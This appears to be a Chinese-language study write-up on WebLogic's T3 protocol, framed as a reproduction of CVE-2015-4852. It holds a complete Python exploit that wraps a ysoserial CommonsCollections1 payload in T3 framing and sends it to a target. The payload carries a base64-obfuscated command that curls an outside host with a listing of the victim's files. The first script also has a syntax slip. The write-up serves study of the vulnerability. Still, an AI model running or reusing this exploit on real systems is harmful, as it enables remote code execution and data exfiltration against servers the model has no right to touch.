



# T3协议学习

这里借用CVE-2015-4852复现来学习了下

## T3协议简介

T3 协议是 Weblogic RMI 调用时的通信协议

RMI 即远程方法调用，我们可以远程调用另一台 JVM虚拟机中对象上的方法，且数据传输过程中是序列化进行传输的

Java RMI 的基础通信协议是 JRMP ，但是也支持开发其他的协议来优化 RMI 的传输，这里的 Weblogic 的 T3 协议就是其优化版本，相比于JRMP协议多了一些特性。以下是T3协议的特点：

1. 服务端可以持续追踪监控客户端是否存活（心跳机制），通常心跳的间隔为60秒，服务端在超过240秒未收到心跳即判定与客户端的连接丢失。
2. 通过建立一次连接可以将全部数据包传输完成，优化了数据包大小和网络消耗。

## T3协议结构

### 请求包头&Test发包

写一个python建立socket发包

```python
import socket

def T3Test(ip,port):
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect((ip, port))
    handshake = "t3 12.2.3\nAS:255\nHL:19\nMS:10000000\n\n"
    sock.sendall(handshake.encode())
    while True:
        data = sock.recv(1024)
        print(data.decode())

if __name__ == "__main__":
    ip = "ip"
    port = port

    T3Test(ip,port
```

返回

```bash
HELO
:10.3.6.0.false
AS:2048
HL:19
```

HELO后面的内容则是被攻击方的weblogic版本号，在发送请求包头后会进行一个返回weblogic的版本号。

### 请求主体

图片取自z_zz_zzz师傅的[修复weblogic的JAVA反序列化漏洞的多种方法](http://drops.xmd5.com/static/drops/web-13470.html)文章



不难看到在第二到第七部分内容，都是`ac ed 00 05`,说明该串内容是序列化的数据。而如果需要去构造payload的话，需要在后面序列化的内容中，进行一个替换。将原本存在的序列化内容替换成我们payload的序列化内容，在传输完成后，进行反序列化达成攻击的目的

- 第一种生成方式为，将weblogic发送的JAVA序列化数据的第二到七部分的JAVA序列化数据的任意一个替换为恶意的序列化数据。 
- 第二种生成方式为，将weblogic发送的JAVA序列化数据的第一部分与恶意的序列化数据进行拼接。

## 漏洞分析

```Java
from os import popen
import struct  # 负责大小端的转换
import subprocess
from sys import stdout
import socket
import re
import binascii


def generatePayload(gadget, cmd):
    YSO_PATH = "ysoserial-0.0.5.jar"
    popen = subprocess.Popen(['java', '-jar', YSO_PATH, gadget, cmd], stdout=subprocess.PIPE)
    return popen.stdout.read()


def T3Exploit(ip, port, payload):
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect((ip, port))
    handshake = "t3 12.2.3\nAS:255\nHL:19\nMS:10000000\n\n"
    sock.sendall(handshake.encode())
    data = sock.recv(1024)
    data += sock.recv(1024)
    compile = re.compile("HELO:(.*).0.false")
    print(data.decode())
    match = compile.findall(data.decode())
    if match:
        print("Weblogic: " + "".join(match))
    else:
        print("Not Weblogic")
        return
    header = binascii.a2b_hex(b"00000000")
    t3header = binascii.a2b_hex(
        b"016501ffffffffffffffff000000690000ea60000000184e1cac5d00dbae7b5fb5f04d7a1678d3b7d14d11bf136d67027973720078720178720278700000000a000000030000000000000006007070707070700000000a000000030000000000000006007006")
    desflag = binascii.a2b_hex(b"fe010000")
    payload = header + t3header + desflag + payload
    payload = struct.pack(">I", len(payload)) + payload[4:]
    sock.send(payload)


if __name__ == "__main__":
    ip = "ip"
    port = port
    gadget = "CommonsCollections1"
    cmd = "bash -c {echo,Y3VybCBodHRwOi8vaW5mby55NHRhY2tlci50b3A/MT1gbHMgfGJhc2U2NGA=}|{base64,-d}|{bash,-i}"
    payload = generatePayload(gadget, cmd)
    T3Exploit(ip, port, payload)

```

这个poc本质就是把ysoserial生成的payload变成t3协议里的数据格式

- 数据包长度包括了自身长度和其他三部分数据包长度，所以需要先占位，计算出长度后再替换进去
- T3协议头是固定的，直接硬编码进去就行
- 反序列化标志+数据=weblogic反序列化标志`fe010000`+ysoserial生成的序列化数据

从wireshark抓包


## 参考文章

http://drops.xmd5.com/static/drops/web-13470.html